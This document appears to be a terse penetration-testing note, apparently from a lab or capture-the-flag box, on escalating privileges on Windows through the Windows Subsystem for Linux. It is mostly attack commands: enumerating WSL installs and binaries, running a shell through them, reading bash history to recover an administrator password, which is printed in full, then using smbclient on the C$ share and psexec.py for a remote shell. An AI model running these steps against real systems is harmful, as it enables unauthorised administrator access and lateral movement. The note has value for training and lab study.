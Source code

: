 [[99.__Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```command prompt - windows
where /R C:\windows bash.exe
```

```command prompt - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```

[[zz._Gaining Shell Access (psexec.py)]]

```bash - kali
psexec.py '$USER:$PASSWORD'@$TARGET
```
